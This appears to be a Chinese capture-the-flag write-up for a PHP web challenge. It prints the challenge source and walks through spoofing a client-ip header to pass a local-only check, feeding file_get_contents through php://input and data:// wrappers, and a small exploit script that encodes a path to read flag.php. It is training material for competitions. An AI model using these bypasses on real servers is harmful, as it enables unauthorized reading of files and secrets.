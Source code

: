 这是[JSfuck编码](http://www.hiencode.com/jsfuck.html)

解密后需要我们POST传Merak参数

POST：Merak=1

看到代码

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 
function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>
```

又要绕过：

第一个ip地址，这儿我们要用client-ip: 127.0.0.1

file_get_contents(),php伪协议

```
2333=php://input
POST:todat is a happy day
或者
data://text/plain,todat is a happy day
data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=
```

绕过change函数

exp

```php
<?php
function change($v){
    $re = '';
    for($i=0;$i<strlen($v);$i++){
        $re .= chr ( ord ($v[$i])-$i*2 );
    }
    return $re;
}
$x=change("flag.php");
echo $x.PHP_EOL;
echo base64_encode($x).PHP_EOL;
```
